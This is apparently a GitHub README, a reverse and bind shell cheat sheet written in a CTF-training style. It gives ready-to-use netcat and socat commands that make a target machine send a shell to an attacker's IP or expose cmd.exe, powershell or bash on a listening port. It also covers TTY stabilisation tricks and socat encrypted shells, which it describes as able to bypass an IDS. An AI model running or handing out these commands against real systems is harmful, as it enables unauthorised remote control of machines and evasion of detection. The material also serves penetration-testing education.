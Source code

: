 # Reverse-Bind-Shells-Cheat-Sheet

# What is a shell ?

Shell is what we use when interfacing with a Command Line environment (CLI). In other words, the common bash or sh programs in Linux are examples of shells, as are cmd.exe and Powershell on Windows. 
We can force the remote server to either send us command line access to the server (a reverse shell), or to open up a port on the server which we can connect to in order to execute further commands (a bind shell).

# Types of Shell

***Reverse shells*** are when the target is forced to execute code that connects back to your computer. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell.

***Bind shells*** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

 ## NETCAT
 
 ### Reverse Shell
 
 On the attacking machine:
 `nc -lvnp <port>` \
-l is used to tell netcat that this will be a listener \
-v is used to request a verbose output \
-n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room. \
-p indicates that the port specification will follow. 
 
 On the target:
 ```nc <LOCAL-IP> <port> -e /bin/bash``` (for linux)
 
 ### Bind Shell
 
 On the attacking machine:
 ```nc <TARGET_IP> <port>```
 
 On the target:
 ```nc -lvnp <port> -e "cmd.exe"``` (for Windows)
 
 ## Netcat Shell Stabilisation
 
 _Technique 1: Python_
 
 `nc -lvnp <port>` \
 `python -c 'import pty;pty.spawn("/bin/bash")'` \
 `export TERM=xterm` \
 *ctrl + Z* and `stty raw -echo; fg` =>  This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. \
 `nc -lvnp <port>` 
 Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.
 
 _Technique 2: rlwrap_
 
 rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap` \
 To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>` \
 Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use stty raw -echo; fg to stabilise and re-enter the shell.
 
 ## Socat
 
 ### Reverse Shells
 
 On the attacking machine:
 `socat TCP-L:<port> -`
 
 On the target machine:
 `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` (for Linux target) \
 `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` (for Windows target)
 
 ### Bind Shells
 
 On the attacking machine:
 `socat TCP:<TARGET-IP>:<TARGET-PORT> -`
 
 On tge target machine:
 `socat TCP-L:<PORT> EXEC:"bash -li"` (for Linux target) \
 `socat TCP-L:<PORT> EXEC:powershell.exe,pipes` 
 
 ### A fully stable Linux tty reverse shell
 
 On the attacking machine:
 `socat TCP-L:<port> FILE:`tty`,raw,echo=0`
 
 On the target machine:
 `socat TCP:<LOCAL-ip>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
         pty; allocates a pseudoterminal on the target -- part of the stabilisation process \
         stderr; makes sure that any error messages get shown in the shell (often a problem with non-interactive shells) \
         sigint; passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell \
         setsid; creates the process in a new session \
         sane; stabilises the terminal, attempting to "normalise" it.
         
 ##  Socat Encrypted Shells
 
 One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result. 
 
 We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine: 

 `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
 
 This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly. 
 
 We then need to merge the two created files into a single .pem file: 
 `cat shell.key shell.crt > shell.pem`
 
 Now, when we set up our _reverse shell listener_, we use: 
 ```socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0``` 
 
 This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been     properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening. 
 
 To connect back, we would use:
 `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash` 
 
 The same technique would apply for a _bind shell_: 

Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes` 

Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
 

 
